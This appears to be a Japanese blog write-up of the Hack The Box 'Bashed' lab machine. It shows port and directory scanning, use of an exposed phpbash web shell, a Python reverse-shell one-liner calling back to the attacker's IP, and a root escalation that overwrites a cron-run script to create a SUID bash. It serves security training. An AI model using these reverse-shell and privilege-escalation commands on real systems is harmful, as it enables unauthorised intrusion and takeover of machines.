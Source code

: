 +++ 
draft = false
date = 2022-07-02T16:19:22+09:00
title = "HTB_Bashed_writeup"
description = "HTB_Bashed_writeup"
slug = ""
authors = []
tags = []
categories = []
externalLink = ""
series = []
+++

# 【Hack The Box】 Bashed Writeup
## Information
- OS：Linux  
- 難易度：Easy  
- IPアドレス：10.129.100.143  
{{< figure src="/images/Bashed1.png" title="Screenshot" class="center" width="800">}}

## Recon
### autoreconでスキャンをし、80が空いていることがわかります。
```shell
└─# python3 autorecon.py 10.129.100.143
[*] Scanning target 10.129.100.143
[*] [10.129.100.143/all-tcp-ports] Discovered open port tcp/80 on 10.129.100.143
[*] [10.129.100.143/tcp/80/http/vhost-enum] The target was not a hostname, nor was a hostname provided as an option. Skipping virtual host enumeration.
[*] [10.129.100.143/tcp/80/http/known-security] [tcp/80/http/known-security] There did not appear to be a .well-known/security.txt file in the webroot (/).
[*] [10.129.100.143/tcp/80/http/curl-robots] [tcp/80/http/curl-robots] There did not appear to be a robots.txt file in the webroot (/).
```

### ブラウザでアクセスします。
{{< figure src="/images/Bashed2.png" title="Screenshot" class="center" width="800">}}

### gobusterで探索をします。
```shell
$ gobuster dir -u http://10.129.100.143 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.100.143
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/07 07:25:57 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 317] [--> http://10.129.100.143/images/]
/uploads              (Status: 301) [Size: 318] [--> http://10.129.100.143/uploads/]
/php                  (Status: 301) [Size: 314] [--> http://10.129.100.143/php/]    
/css                  (Status: 301) [Size: 314] [--> http://10.129.100.143/css/]    
/dev                  (Status: 301) [Size: 314] [--> http://10.129.100.143/dev/]    
/js                   (Status: 301) [Size: 313] [--> http://10.129.100.143/js/]     
/fonts                (Status: 301) [Size: 316] [--> http://10.129.100.143/fonts/]
```

### /devにアクセスすると、ディレクトリリスティングされています。
{{< figure src="/images/Bashed3.png" title="Screenshot" class="center" width="800">}}

### phpbash.phpをクリックすると、シェルのようなプロンプトにアクセスできました。
{{< figure src="/images/Bashed4.png" title="Screenshot" class="center" width="800">}}

### ncからシェルに繋ぎます。pythonコードをターゲットマシンのプロンプトに入力します。
```shell
$ nc -lnvp 4444 
listening on [any] 4444 ...
```

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.114",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

### シェルが返ってきましたので、フラグを取ります。（フラグは省略しています）
```shell
$ nc -lnvp 4444 
listening on [any] 4444 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.100.143] 48662
/bin/sh: 0: can't access tty; job control turned off
$
```

```shell
$ cat user.txt
2c2...
```

## 権限昇格
### sudo -lでパスワード不要でsudoできるコマンドのリストを表示します。scriptmanagerは全てのコマンドをsudoのパスワードなしで実行できます。
```shell
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

### 以前に使用したものと同じPythonリバースシェルを、scriptmanagerとして再度使用します。
```shell
$ nc -lnvp 4445 
listening on [any] 4445 ...
```

```shell
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.114",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

```shell
$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.100.143] 45882
/bin/sh: 0: can't access tty; job control turned off
$ whoami
scriptmanager
```

### scriptmanagerが所有するファイルとフォルダーを列挙します。/scripts/test.pyがありました。
```shell
$ find / -xdev -type f -user scriptmanager 2>/dev/null; find -xdev -type d -user scriptmanager 2>/dev/null
/scripts/test.py
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
```

### /scripts/test.pyの中身を見てみると、テキストファイルに文字列を書き込んでいるだけです。
```shell
$ cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

### bashのSUIDバイナリを作成するPythonスクリプトをローカルで作成します。
```shell
$ cat test.py                
import os
os.system('cp /bin/bash /tmp/stef; chmod +s /tmp/stef')
```

### HTTPサーバをサーブし、タッゲートマシンに転送します。
```shell
$ cd /scripts                                
$ ls
test.py
test.txt
$ wget http://10.10.14.114/test.py -O test.py
--2022-06-07 05:16:34--  http://10.10.14.114/test.py
Connecting to 10.10.14.114:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 66 [text/plain]
Saving to: 'test.py'

     0K                                                       100% 8.28M=0s

2022-06-07 05:16:35 (8.28 MB/s) - 'test.py' saved [66/66]

$ cat test.py
import os
os.system('cp /bin/bash /tmp/stef; chmod +s /tmp/stef')
$
```

### 数分待ち、/tmp/stef -pを実行するとrootが取れましたので、フラグを取得します。（フラグは省略しています）
```shell
$ /tmp/stef -p

whoami
root
```

```shell
cat root.txt
cc4...
```